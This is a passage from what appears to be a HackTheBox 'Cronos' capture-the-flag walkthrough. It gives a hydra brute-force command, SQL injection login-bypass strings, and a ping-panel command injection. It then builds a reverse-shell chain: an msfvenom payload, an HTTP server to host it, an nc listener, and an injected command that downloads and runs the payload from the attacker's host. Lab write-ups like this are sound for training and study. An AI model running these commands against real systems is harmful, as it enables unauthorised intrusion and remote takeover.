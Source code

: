 ```bash
# assuming the user "admin" exists ...
hydra -vV -f -I\
  -l cronos \
  -P ./rockyou.txt \
  admin.cronos.htb \
  http-post-form \
  "/index.php:username=^USER^&password=^PASS^:invalid"
```

Next to test is some simple SQL injection for a login bypass:

- `" or 1=1#` as the username and `bubba` as the password does not work :disappointed:
- `' or 1=1#` as the username and `bubba` as the password works :happy:

The page at `http://admin.cronos.htb` now becomes:

![admin_panel](./cronos/admin_panel.png)

This seems like a simple remote command panel. Setting the dropdown to Ping and adding in a simple command line escape input `127.0.0.1 && whoami` returns the following:

![whoami](./cronos/whoami.png)

Nice! this can be easily used for a reverse shell with the following payload after changing `whoami` to `which wget` in order to verify the target has that remote download utility:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
# enter the following command into the admin panel at http://admin.cronos.htb
127.0.0.1 && wget http://10.10.14.23:8080/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &
```
